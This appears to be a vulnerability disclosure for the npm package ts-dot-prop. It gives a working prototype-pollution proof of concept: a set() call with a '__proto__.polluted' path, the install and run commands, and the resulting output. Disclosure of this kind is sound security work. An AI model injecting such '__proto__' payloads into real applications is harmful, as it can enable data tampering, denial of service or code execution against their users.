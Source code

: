 # Description

`ts-dot-prop` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { set } = require('ts-dot-prop')

console.log(`Before: ${{}.polluted}`)
set({}, '__proto__.polluted', true)
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i ts-dot-prop # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

